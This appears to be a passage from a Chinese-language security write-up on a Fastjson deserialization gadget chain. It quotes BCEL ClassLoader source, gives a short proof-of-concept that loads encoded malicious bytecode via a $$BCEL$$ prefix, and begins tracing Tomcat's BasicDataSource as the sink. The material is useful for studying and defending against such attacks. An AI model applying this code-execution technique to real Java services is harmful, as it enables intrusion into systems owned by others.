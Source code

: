 ```java
protected JavaClass createClass(String class_name) {
  int    index     = class_name.indexOf("$$BCEL$$");
  String real_name = class_name.substring(index + 8);   //取$$BCEL$$后面字符串

  JavaClass clazz = null;
  try {
    byte[]      bytes  = Utility.decode(real_name, true); //将字符串解密
    ClassParser parser = new ClassParser(new ByteArrayInputStream(bytes), "foo");

    clazz = parser.parse();
  } catch(Throwable e) {
    e.printStackTrace();
    return null;
  }

  // Adapt the class name to the passed value
  ConstantPool cp = clazz.getConstantPool();

  ConstantClass cl = (ConstantClass)cp.getConstant(clazz.getClassNameIndex(),
                                                   Constants.CONSTANT_Class);
  ConstantUtf8 name = (ConstantUtf8)cp.getConstant(cl.getNameIndex(),
                                                   Constants.CONSTANT_Utf8);
  name.setBytes(class_name.replace('.', '/'));

  return clazz;
}
```

所以我们将恶意字节码加密并在前面加上$$BCEL$$，就可以弹计算器了。

```java
public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Exp.class"));
        String encode = Utility.encode(code,true);
        ClassLoader classLoader = new ClassLoader();
        classLoader.loadClass("$$BCEL$$"+encode).newInstance();
    }
}
```

之后看是否有一个类，可以实现`classLoader.loadClass("$$BCEL$$"+encode).newInstance();`

发现tomcat的一个类`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`，正好满足这个条件

```java
protected ConnectionFactory createConnectionFactory() throws SQLException {
    // Load the JDBC driver class
    Driver driverToUse = this.driver;

    if (driverToUse == null) {
        Class<?> driverFromCCL = null;
        if (driverClassName != null) {
            try {
                try {
                    if (driverClassLoader == null) {                   
                        driverFromCCL = Class.forName(driverClassName);
                    } else {
                        driverFromCCL = Class.forName(driverClassName, true, driverClassLoader);  //保证driveClassLoader不为NULL，进入这个循环，
                    }
```
